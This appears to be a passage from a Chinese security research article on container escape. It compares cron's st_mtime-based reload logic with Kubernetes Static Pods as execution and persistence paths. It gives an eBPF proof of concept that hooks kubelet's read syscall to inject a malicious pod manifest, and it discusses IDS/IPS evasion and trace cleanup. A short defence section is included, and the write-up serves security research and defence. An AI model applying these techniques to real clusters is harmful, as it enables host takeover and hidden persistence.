不同的 cron 实现对漏洞利用的影响主要在于：1、配置文件的路径不一致，2、配置文件的格式不一致，3、检查配置文件更新或监控新配置文件的逻辑有不一致的实现，这些都会影响黑盒或部分白盒场景的漏洞利用的稳定性。

我们把 Linux cron 计划任务能执行命令的文件简单分为了四类：

1、`* * * * * username command` 格式，/etc/crontab，/etc/cron.d/\* 等路径

2、`* * * * * command` 格式， /var/spool/cron/ 等路径

3、`period-in-days delay-in-minutes job-identifier command` 格式，/etc/anacrontab 等路径

4、可执行脚本文件， /etc/cron.daily/ *， /etc/cron.hourly/* ， /etc/cron.monthly/ *， /etc/cron.weekly/* 等路径

当然，如果是恶意程序，可能会简单粗暴的把所有路径都写一遍；但是如果是授权的红蓝对抗，如果考虑对抗和业务稳定，暴力利用显然是不现实的；更加值得注意的是，大部分情况我们挖掘到的任意文件写在利用时存在局限，例如无法对文件进行内容上的追加、无法设置文件的可执行权限、无法覆盖现有文件等等。

也有即使你暴力写入了所有配置文件， cron却没有进入加载新配置流程的情况，那就要从源码上看一下 cron 对监控新任务的实现，也就是下文我们要说到的 st\_mtime。

#### 对 st\_mtime 的依赖

在我们代码审计的所有 Cron 实现中，无一例外，察觉到文件更新的方式都是对比配置文件路径的 st\_mtime。在操作系统层面，文件夹内任何文件编辑、新增、删除、修改等操作，操作系统都会更新 st\_mtime。如图：

但是如上文所述中,利用 eBPF 的手法却不会促使操作系统自动更新目录的 st\_mtime，所以我们需要编写 eBPF 代码 attach `stat` 的 syscall，促使 Cron 进程误以为 crontab 更新了，进而执行我们新创建的计划任务。而有更多场景无法做到伪造或更新 st\_mtime，例如使用 debugfs命令 进行任意文件写利用的场景，这是一个极其危险又充满变数的利用方式，但在容器场景中却不少见，可以参考 `rewrite-cgroup-devices[4]` 场景和 `lxcfs-rw[5]` 场景。

诚然， Cron 实践中还有每个小时（60分钟）不检查 st\_mtime 强制更新新任务的实现（代码如下图），但包含这个设计的实现目前运用比较广泛的仅有 busybox-cron，会使EXP变得小众且不通用；如果你发现原本已经放弃的命令执行利用，吃个饭后Shell居然过来了，可能就是这个原因。

另外一个不依赖于 st\_mtime 更新且最快只有每个小时执行一次的文件是上面提到的第四类文件，目录 /etc/cron.hourly/。因为这类文件使用 run-part 触发，任务已经写入了 cron 之中，run-part 会执行目录下的所有可执行脚本，没有 st\_mtime 限制；但这类文件在写入时必须赋予可执行权限，不然 run-part 不会执行漏洞利用写入的脚本。

那有没有云原生时代下更为通用且更加兼容的利用方法使我们的EXP更加“云原生”呢？

#### 利用 Static Pod

利用 Static Pod 是我们在容器逃逸和远程代码执行场景找到的解决方案，他是 Kubernetes 里的一种特殊的 Pod，由节点上 kubelet 进行管理。在漏洞利用上有以下几点明显的优势：

##### 1、 仅依赖于 kubelet

Static Pod 仅依赖 kubelet，即使 K8s 的其他组件都奔溃掉线，删除 apiserver，也不影响 Static Pod 的使用。在 Kubernetes 已经是云原生技术事实标准的现在，kubelet 几乎运行与每个容器母机节点之上。

##### 2、 配置目录固定

Static Pod 配置文件写入路径由 kubelet config 的 staticPodPath 配置项管理，默认为 /etc/kubernetes/manifests 或 /etc/kubelet.d/，一般情况不做更改。

##### 3、 执行间隔比 Cron 更短

通过查看 Kubernetes 的源码，我们可以发现 kubelet 会每 20 秒监控新的 POD 配置文件并运行或更新对应的 POD；由 `c.FileCheckFrequency.Duration = 20 * time.Second` 控制，虽然 Cron 的每分钟执行已经算是非常及时，但 Static Pod 显然可以让等待 shell 的时间更短暂，对比 /etc/cron.daily/ *， /etc/cron.hourly/* ， /etc/cron.monthly/ *， /etc/cron.weekly/* 等目录就更不用说了。

另外，Cron 的分钟级任务也会遇到重复多次执行的问题，增加多余的动作更容易触发 IDS 和 IPS，而 Static Pod 若执行成功就不再调用，保持执行状态，仅在程序奔溃或关闭时可自动重启

##### 4、 进程配置更灵活

Static Pod 支持 Kubernetes POD 的所有配置，等于可以运行任意配置的容器。不仅可以配置特权容器和 HostPID 使用 nscenter 直接获取容器母机权限；更可以配置不同 namespace、capabilities、cgroup、apparmor、seccomp 用于特殊的需求。

灵活的进程参数和POD配置使得 Static Pod 有更多方法对抗 IDS 和 IPS，因此也延生了很多新的对抗手法，这里就不再做过多介绍。

##### 5、 检测新文件或文件变化的逻辑更通用

最重要的是，Static Pod 不依赖于 st\_mtime 逻辑，也无需设置可执行权限，新文件检测逻辑更加通用。

1.  `func (s *sourceFile) extractFromDir(name string) ([]*v1.Pod, error) {`
2.      `dirents, err := filepath.Glob(filepath.Join(name, "[^.]*"))`
3.      `if err != nil {`
4.          `return nil, fmt.Errorf("glob failed: %v", err)`
5.      `}`
6.  `​`
7.      `pods := make([]*v1.Pod, 0, len(dirents))`

而文件更新检测是基于 kubelet 维护的 POD Hash 表进行的，配置的更新可以很及时和确切的对 POD 容器进行重建。Static Pod 甚至包含稳定完善的奔溃重启机制，由 kubelet 维护，属于 kubelet 的默认行为无需新加配置。操作系统层的痕迹清理只需删除 Static Pod YAML 文件即可，kubelet 会自动移除关闭运行的恶意容器。同时，对于不了解 Static Pod 的蓝队选手来说，我们需要注意的是，使用 `ubectl delete` 删除恶意容器或使用`docker stop` 关闭容器都无法完全清除 Static Pod 的恶意进程，kubelet 会守护并重启该 Pod。

### eBPF 劫持 kubelet 进行逃逸

劫持kubelet仅需要hook `openat`、 `read` 、 `close` 三个系统调用。hook的eBPF代码和上面hook cron 几乎一样，但有以下几点不同。

`bpf_get_current_pid_tgid` 获取的是内核调度线程用的pid，而kubelet是多线程程序，因此需要修改根据pid过滤系统调用为使用tgid来过滤，这里采取简单办法，直接根据程序名过滤：

1.  `// ...`
2.  `​`
3.      `char comm[TASK_COMM_LEN];`
4.  `​`
5.      `bpf_get_current_comm(&comm, sizeof(comm));`
6.  `​`
7.      `// executable is not kubelet, return`
8.      `if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME)))`
9.          `return 0;`
10.  `​`
11.  `// ...`

yaml不支持多行注释，导致hook read 时，如果原始返回过长，只能将超出我们写的payload长度的部分覆盖掉，不过我们可以使用 bpf\_override\_return 来修改 read 的返回值，因为syscall定义都是可以进行error injection的：

1.  `#define __SYSCALL_DEFINEx(x, name, ...)                    \`
2.      `// ...`
3.      `asmlinkage long sys##name(__MAP(x,__SC_DECL,__VA_ARGS__))    \`
4.          `__attribute__((alias(__stringify(__se_sys##name))));    \`
5.      `ALLOW_ERROR_INJECTION(sys##name, ERRNO);            \`
6.      `// ...`
7.  `#endif /* __SYSCALL_DEFINEx */`

该helper需要内核开启 `CONFIG_BPF_KPROBE_OVERRIDE` 选项，并且使用了该helper会导致被hook函数不会真正执行，我们hook `read` 时需要在第二次 `read` 时返回0保证，不然kubelet第二次调用 `read` 时会读取真正的yaml文件内容。

完整的hook `read` 返回代码如下：

1.  `SEC("kretprobe/__x64_sys_read")`
2.  `int kretprobe_sys_read(struct pt_regs *ctx)`
3.  `{`
4.      `char comm[TASK_COMM_LEN];`
5.  `​`
6.      `bpf_get_current_comm(&comm, sizeof(comm));`
7.  `​`
8.      `// executable is not kubelet, return`
9.      `if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME)))`
10.          `return 0;`
11.  `​`
12.      `if (read_buf == 0)`
13.          `return 0;`
14.  `​`
15.      `if (written)`
16.      `{`
17.          `written = 0;`
18.          `bpf_override_return(ctx, 0);`
19.          `read_buf = 0;`
20.  `​`
21.          `return 0;`
22.      `}`
23.  `​`
24.      `bpf_probe_write_user(read_buf, payload, PAYLOAD_LEN);`
25.  `​`
26.      `bpf_override_return(ctx, PAYLOAD_LEN);`
27.  `​`
28.      `read_buf = 0;`
29.      `written = 1;`
30.  `​`
31.      `return 0;`
32.  `}`

最终效果：

#### 改进

本节展示的示例仅仅是一个PoC，想获取在实战环境下更完善的exploit我们还会需要以下改进：

(1) 上述示例的前提条件为知道对应yaml路径，因此在实战环境下，想写出更稳定的exploit需要先hook对应系统调用，得到 `kubelet`相应的Static Pod配置文件路径

(2) PoC的利用方式是覆盖原有的yaml文件内容，这会导致原来的Pod被删除，更可靠的方式是能实现添加Pod配置的方式，不过由于 `kubelet` 使用的是 `filepath.Glob` ，不符合pattern的文件路径都会被过滤，不能简单hook `getdent64` 系统调用来利用

### 防御措施

从根源上解决，在没有使用 `user namespace` 隔离的情况下，不要赋予容器 `CAP_SYS_ADMIN` 和 `CAP_BPF` 权限，或者 `seccomp` 限制 `bpf`主动防御可以监控系统 bpf 调用和加载eBPF程序、map的情况，在容器内一般不会加载eBPF程序，如果成功加载，则可能存在eBPF被滥用的情况。

### Thanks

感谢腾讯蓝军 lake、小五、振宇等师傅们在成文先后的审核和帮助，是让他们赋予这篇文章更多的光彩。也感谢你读到这里，成文仓促，希望业界大师傅们多指教勘误。

### References

\[1\] What is eBPF: [https://ebpf.io/what-is-ebpf](https://ebpf.io/what-is-ebpf)  
\[2\] BPF and XDP Reference Guide: [https://docs.cilium.io/en/stable/bpf/](https://docs.cilium.io/en/stable/bpf/)  
\[3\] The art of writing eBPF programs: a primer.: [https://sysdig.com/blog/the-art-of-writing-ebpf-programs-a-primer/](https://sysdig.com/blog/the-art-of-writing-ebpf-programs-a-primer/)  
\[4\] rewrite-cgroup-devices: [https://github.com/cdk-team/CDK/blob/main/pkg/exploit/rewrite\_cgroup\_devices.go](https://github.com/cdk-team/CDK/blob/main/pkg/exploit/rewrite_cgroup_devices.go)  
\[5\] lxcfs-rw: [https://github.com/cdk-team/CDK/blob/main/pkg/exploit/lxcfs\_rw.go](https://github.com/cdk-team/CDK/blob/main/pkg/exploit/lxcfs_rw.go)  
\[6\] CDK: an open-sourced container penetration toolkit: [https://github.com/cdk-team/CDK](https://github.com/cdk-team/CDK)  
\[7\] Miscellaneous eBPF Tooling: [https://github.com/nccgroup/ebpf](https://github.com/nccgroup/ebpf)  
\[8\] Kernel Pwning with eBPF: a Love Story: [https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story](https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story)  
\[9\] Docker AppArmor default profile: [https://github.com/moby/moby/blob/master/profiles/apparmor/template.go](https://github.com/moby/moby/blob/master/profiles/apparmor/template.go)  
\[10\] The list of program types and supported helper functions: [https://github.com/iovisor/bcc/blob/master/docs/kernel-versions.md#program-types](https://github.com/iovisor/bcc/blob/master/docs/kernel-versions.md#program-types)  
\[11\] bpf: unprivileged: [https://lwn.net/Articles/660080/](https://lwn.net/Articles/660080/)
